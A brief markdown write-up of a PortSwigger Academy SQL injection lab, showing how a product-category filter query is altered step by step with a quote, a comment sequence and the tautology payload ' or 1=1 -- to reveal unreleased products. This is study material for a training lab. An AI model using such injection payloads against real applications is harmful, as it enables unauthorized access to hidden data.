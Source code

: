 # Lab #1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data

**SQL injection - product category filter**
```SQL
SELECT * FROM products WHERE category = 'Gifts' AND released = 1 
```
**End goal:** 
- display all products both released and unreleased.

**Analysis:**
```SQL
SELECT * FROM products WHERE category = 'Pets' AND released = 1
```
```SQL
SELECT * FROM products WHERE category = ''' AND released = 1 
```
```SQL
SELECT * FROM products WHERE category = ''--' AND released = 1 
```
```SQL
SELECT * FROM products WHERE category = ''
```
```SQL
SELECT * FROM products WHERE category = '' or 1=1 --' AND released = 1 
```



